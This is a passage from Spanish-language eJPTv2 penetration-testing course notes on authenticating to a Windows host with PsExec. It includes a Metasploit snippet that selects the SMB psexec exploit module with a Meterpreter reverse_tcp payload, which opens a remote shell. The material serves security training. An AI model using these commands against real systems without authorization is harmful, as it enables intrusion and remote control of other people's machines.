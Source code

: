 ![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2024.png)

Ahora nos autenticamos con PsExec:

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2025.png)

Podemos usar también el modulo psexec de metasploit:

```bash
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2026.png)
